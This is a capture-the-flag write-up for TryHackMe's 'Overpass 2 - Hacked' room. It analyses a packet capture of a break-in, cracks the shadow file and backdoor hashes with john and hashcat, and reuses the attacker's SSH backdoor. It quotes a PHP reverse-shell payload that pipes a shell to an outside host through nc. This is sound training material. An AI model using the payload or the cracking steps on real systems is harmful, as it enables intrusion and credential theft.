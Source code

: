 # Overpass 2 - Hacked

- [Tools](#tools)
- [Forensics - Analyse the PCAP](#forensics---analyse-the-pcap)
- [Research - Analyse the code](#research---analyse-the-code)
- [Attack - Get back in!](#attack---get-back-in)

Room Link: https://tryhackme.com/room/overpass2hacked

## Tools 

1. 

##  Forensics - Analyse the PCAP

1. Download `overpass2.pcapng`.
2. Check and match `md5sum` of the file to verify file.
```bash
md5sum overpass2.pcapng 
11c3b2e9221865580295bc662c35c6dc  overpass2.pcapng
```
3. We can use `wireshark` and `follow TCP streams` of suspicious streams. But, I used `strings overpass2.pcapng`.
4. With strings we can see everything in plaintext. There is a request to link on directory `/development/upload.php`.
5. Question `What was the URL of the page they used to upload a reverse shell?` Answer `/development/`.
6. With same method we can get the payload `<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>`. You can check it by scrolling or simply use `strings overpass2.pcapng |grep "php exec"`
7. Question `What payload did the attacker use to gain access?` Answer `exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")`.
8. Question `What password did the attacker use to privesc?` Answer `whene************tant`. You can manually scan strings result to see the password.
9. Question `How did the attacker establish persistence?` Answer `https://github.com/NinjaJc01/ssh-backdoor`. With same manual scrolling will work here.
10. We can see `cat /etc/shadow` command and it's result inside `strings` output. We can simply save it in a file named shadow.
11. Then we need to download `fasttrack` wordlist as instructed using command `wget https://raw.githubusercontent.com/drtychai/wordlists/master/fasttrack.txt`.
12. Then we can run john to check.
```bash
john --wordlist=fasttrack.txt shadow 
Loaded 5 password hashes with 5 different salts (crypt, generic crypt(3) [?/64])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
se*****y3        (paradox)
ab***23          (szymex)
s****t12         (bee)
1***2wsx         (muirland)
4g 0:00:00:04 100% 0.8113g/s 45.03p/s 187.4c/s 187.4C/s 2003..starwars
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
13. Question `Using the fasttrack wordlist, how many of the system passwords were crackable?` Answer `4` 


## Research - Analyse the code
1. We have the backdoor link `https://github.com/NinjaJc01/ssh-backdoor`. We can find `hash` and `salt` details inside code. `https://raw.githubusercontent.com/NinjaJc01/ssh-backdoor/master/main.go`
2. Question `What's the default hash for the backdoor?` Answer `bdd04d9bb7621687f5df9001f5098eb22bf19eac4c2c30b6f23efed4d24807277d0f8bfccb9e77659103d78c56e66d2d7d8391dfc885d0e9b68acd01fc2170e3`
3. Question `What's the hardcoded salt for the backdoor?` Answer `1c362db832f3f864c8c2fe05f2002a05`.
4. Question `What was the hash that the attacker used? - go back to the PCAP for this!` Answer `6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed`. We can check it manually inside `strings` output. By using `strings overpass2.pcapng |grep "backdoor -a"` we can directly find the output.
5. As we can find in the backdoor code that it is `sha512`. So we can decode it using `hashcat`.
```bash
hashcat -m 1710 "6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed:1c362db832f3f864c8c2fe05f2002a05" --force /opt/wordlist/rockyou.txt --quiet
6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed:1c362db832f3f864c8c2fe05f2002a05:no******6
```
6. Question `Crack the hash using rockyou and a cracking tool of your choice. What's the password?` Answer `n********6`

## Attack - Get back in!

1. Start Machine to get IP.
2. Question `The attacker defaced the website. What message did they leave as a heading?` Answer `H4ck3d by CooctusClan`. Manually checking strings output for downloading deface page will show this. We can also use this command `strings overpass2.pcapng |grep "H4ck3d"`. Or simply opening the ip in browser will show this heading.
3. We have repeat attackers steps. 
4. Now we can login to the ssh port 2222 opened by the backdoor as we saw in `strings` output. We already have username `james` and can use cracked password.
5. 
6. 

Author: Zishan Ahamed Thandar
